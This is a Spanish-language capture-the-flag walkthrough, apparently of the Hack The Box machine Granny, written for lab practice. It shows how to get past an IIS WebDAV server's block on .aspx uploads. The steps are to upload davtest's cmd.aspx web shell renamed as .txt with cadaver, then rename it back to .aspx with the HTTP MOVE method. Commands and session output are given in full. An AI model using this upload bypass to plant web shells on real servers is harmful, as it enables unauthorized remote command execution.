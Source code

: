 Vemos en los resultados que NO podemos subir archivos de extensión *asp* y *aspx*, los cuales son relacionados a Microsoft IIS. Podríamos pensar que como nos permite subir archivos PHP, podríamos ir por ahí, pero NO, por que el código no se nos va a interpretar. 

Pensando un poco, podríamos subir un archivo con una extensión válida y luego a través de método HTTP MOVE podriamos renombrar el archivo con la extensión correcta. Así que vamos a buscar un archivo `cmd.aspx` y lo copiamos a nuestro directorio de trabajo.

```bash
❯ locate cmd.aspx
/usr/share/davtest/backdoors/aspx_cmd.aspx
❯ cp $(!!) .
cp $(locate cmd.aspx) .
❯
```

Lo renombramos con extensión *txt* y con la herramienta `cadaver` subimos el archivo al servidor y con el método MOVE le cambiamos la extensión a `aspx`:

```bash
❯ cadaver 10.10.10.15
dav:/> ls
Listando colección `/': exitoso.
 Col:   DavTestDir_tMk2tUFP                    0  sep 20 16:48
 Col:   _private                               0  abr 12  2017
 Col:   _vti_bin                               0  abr 12  2017
 Col:   _vti_cnf                               0  abr 12  2017
 Col:   _vti_log                               0  abr 12  2017
 Col:   _vti_pvt                               0  abr 12  2017
 Col:   _vti_script                            0  abr 12  2017
 Col:   _vti_txt                               0  abr 12  2017
 Col:   aspnet_client                          0  abr 12  2017
 Col:   images                                 0  abr 12  2017
        _vti_inf.html                       1754  abr 12  2017
        iisstart.htm                        1433  feb 21  2003
        pagerror.gif                        2806  feb 21  2003
        postinfo.html                       2440  abr 12  2017
dav:/> put aspx_cmd.txt
Transferiendo aspx_cmd.txt a '/aspx_cmd.txt':
 Progreso: [                              ]   0.0% of 1398 bytes Progreso: [=============================>] 100.0% of 1398 bytes exitoso.
dav:/> MOVE aspx_cmd.txt aspx_cmd.aspx
Moviendo '/aspx_cmd.txt' a '/aspx_cmd.aspx':  exitoso.
dav:/>
```

A partir de aquí, podriamos ir a la web y tratar de visualizar nuestro recurso:

![""](/assets/images/htb-granny/granny_cmd.png)

